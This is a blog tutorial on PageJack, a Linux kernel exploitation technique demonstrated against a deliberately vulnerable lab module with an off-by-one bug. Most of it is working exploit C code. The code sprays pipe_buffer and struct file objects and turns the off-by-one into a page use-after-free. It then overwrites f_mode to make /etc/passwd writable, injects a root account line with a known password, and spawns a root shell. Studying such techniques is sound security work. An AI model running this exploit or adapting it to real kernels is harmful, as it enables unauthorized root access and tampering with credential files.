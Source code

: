 ```yaml
---
title: Linux Kernel Exploitation - PageJack
date: 2025-05-03
categories: [Guide, Linux Kernel Exploitation]
tags: [linux, pwn]
---
```


In this post, I will explain PageJack, a universal and data-only exploitation technique that turns an off-by-one bug into a page UAF. Download the [handouts](https://github.com/r1ru/linux-kernel-exploitation/tree/main/pagejack) beforehand.

## Analysis
The vulnerable LKM provides two commands: `CMD_ALLOC` and `CMD_WRITE`. These commands are used to allocate and write to an object defined as follows:
```c
#define OBJ_SIZE    0x400

struct obj {
    char buf[OBJ_SIZE];
};
```

## Bugs
There is an obvious off-by-one bug in `obj_write`:
```c
static long obj_write(char *data, size_t size) {
    if (obj == NULL || size > OBJ_SIZE) {
        return -1;
    }
    if (copy_from_user(obj->buf, data, size) != 0) {
        return -1;
    }
    obj->buf[size] = '\0';
    return 0;
}
```

## PageJack
PageJack is a technique that turns an off-by-one bug into a page UAF. It targets the array of `struct pipe_buffer` allocated in `alloc_pipe_info`:
```c
// https://elixir.bootlin.com/linux/v6.13/source/fs/pipe.c#L815-L816
struct pipe_inode_info *alloc_pipe_info(void)
{
    struct pipe_inode_info *pipe;
    unsigned long pipe_bufs = PIPE_DEF_BUFFERS;
    ...
    pipe->bufs = kcalloc(pipe_bufs, sizeof(struct pipe_buffer),
                 GFP_KERNEL_ACCOUNT);
    ...
}
```
`struct pipe_buffer` has a pointer to a `struct page` as its first member:
```c
// https://elixir.bootlin.com/linux/v6.13/source/include/linux/pipe_fs_i.h#L26-L32
struct pipe_buffer {
    struct page *page;
    unsigned int offset, len;
    const struct pipe_buf_operations *ops;
    unsigned int flags;
    unsigned long private;
};
```
Since `sizeof(struct page)` is 0x40 bytes and we have an off-by-one primitive, we can overwrite the pointer with a 75% probability, redirecting it to a different page. Then, by closing the pipe, we can free a page that is still in use by another pipe, thereby triggering a page UAF.

PageJack is a very powerful technique that can bypass mitigations like CONFIG_CFI_CLANG and the upcoming [CONFIG_SLAB_VIRTUAL](https://github.com/thejh/linux/blob/slub-virtual/MITIGATION_README).

## Exploitation
First, we allocate the victim object near `struct pipe_buffer`:
```c
puts("[*] Spraying struct pipe_buffer");
int pipefds[NUM_PIPE_SPRAY][2];
for (int i = 0; i < NUM_PIPE_SPRAY / 2; i++) {
    assert(pipe(pipefds[i]) != -1);
}

puts("[*] Allocating a victim object from kmalloc-1k");
obj_alloc();

puts("[*] Spraying struct pipe_buffer");
for (int i = NUM_PIPE_SPRAY / 2; i < NUM_PIPE_SPRAY; i++) {
    assert(pipe(pipefds[i]) != -1);
}
```
Next, we write values to the allocated pipes. This step is necessary later on to identify the victim pipe:
```c
puts("[*] Writting to pipes to allocate pages");
for (int i = 0; i < NUM_PIPE_SPRAY; i++) {
    int val = 0xcafebabe + i;
    assert(write(pipefds[i][1], &val, sizeof(val)) != -1);
    assert(write(pipefds[i][1], "deadbeef", 8) != -1);
}
```
There are two reasons why we additionally write `"deadbeef"`. First, writing more than 4 bytes prevents the page from being freed when we later read 4 bytes. If we write only 4 bytes, the page will be freed in `pipe_read`:
```c

// https://elixir.bootlin.com/linux/v6.13/source/fs/pipe.c#L343-L344
static ssize_t
pipe_read(struct kiocb *iocb, struct iov_iter *to)
{
    ...
            if (!buf->len)
                tail = pipe_update_tail(pipe, buf, tail);
```
The second reason is to overwrite the `f_mode` member of `struct file` in the final step.
Since `pipe_write` writes from `len + offset`, and the offset of the `f_mode` member is 0xc, we adjust the write position:
```c
// https://elixir.bootlin.com/linux/v6.13/source/fs/pipe.c#L477-L485
static ssize_t
pipe_write(struct kiocb *iocb, struct iov_iter *from)
{
    ...
        int offset = buf->offset + buf->len;

        if ((buf->flags & PIPE_BUF_FLAG_CAN_MERGE) &&
            offset + chars <= PAGE_SIZE) {
            ret = pipe_buf_confirm(pipe, buf);
            if (ret)
                goto out;

            ret = copy_page_from_iter(buf->page, offset, chars, from);
```
![win](/assets/img/posts/2025-05-03-6/page.png)

Next, we perform the off-by-one write:
```c
puts("[*] Overwitting pipe->bufs[0].page");
char zero[0x400] = {};
obj_write(zero, 0x400);
```
Next, we identify the victim pipe by reading from the pipe and checking if the value differs from the one we wrote:
```c
puts("[*] Locating the victim pipe");
int victim_pipefd = -1;
int origin_pipefd = -1;
for (int i = 0; i < NUM_PIPE_SPRAY; i++) {
    int val;

    assert(read(pipefds[i][0], &val, 4) != -1);
    if (val != 0xcafebabe + i) {
        victim_pipefd = i;
        origin_pipefd = val - 0xcafebabe;
        printf("[+] Found: victim_pipefd = %d, origin_pipefd = %d\n", victim_pipefd, origin_pipefd);
        break;
    }
}
if (victim_pipefd == -1) {
    puts("[-] Failed to locate the victim pipe");
    exit(0);
}
```
Next, we close one of the pipes that shares the same pointer to the page:
```c
puts("[*] Closing the original pipe");
assert(close(pipefds[origin_pipefd][0]) != -1);
assert(close(pipefds[origin_pipefd][1]) != -1);
```
Next, we spray `struct file` objects for /etc/passwd to make the freed page be used as a filp slab:
```c
puts("[*] Spraying struct file of /etc/passwd");
int filefds[NUM_SPRAY_FILE];
for (int i = 0; i < NUM_SPRAY_FILE; i++) {
    filefds[i]= open("/etc/passwd", O_RDONLY);
    assert(filefds[i] != -1);
}
```
Finally, we use the victim pipe to overwrite the `f_mode` member, making /etc/passwd writable, and then overwrite it.
```c
puts("[*] Overwitting f_mode");
int fake_f_mode = 0x84f801f;
assert(write(pipefds[victim_pipefd][1], &fake_f_mode, 4) != -1);

char payload[] = "root:$1$deadbeef$j9ep0CjBGivAnD5z6l5rr0:0:0:root:/root:/bin/sh\n";
printf("[*] Overwriting /etc/passwd with %s", payload);
for (int i = 0; i < NUM_SPRAY_FILE; i++) {
    if (write(filefds[i], payload, sizeof(payload)) != -1) {
        puts("[+] Success");
        puts("[+] You can now log in as root with the password: cafebabe");
        char *argv[] = {"/bin/sh", NULL};
        execve(argv[0], argv, NULL);
    }
}
```
By running this exploit, we can log in as a root user and see the flag:
![win](/assets/img/posts/2025-05-03-6/win.png)

## References
1. Zhiyun Qian, Jiayi Hu, Jinmeng Zhou, Qi Tang and Wenbo Shen. 2024. PageJack: A Powerful Exploit Technique With Page-Level UAF. https://i.blackhat.com/BH-US-24/Presentations/US24-Qian-PageJack-A-Powerful-Exploit-Technique-With-Page-Level-UAF-Thursday.pdf
2. arttnba3. 2023. 【CTF.0x08】D^ 3CTF2023 d3kcache: From null-byte cross-cache overflow to infinite arbitrary read & write. https://blog.arttnba3.cn/2023/05/02/CTF-0X08_D3CTF2023_D3KCACHE/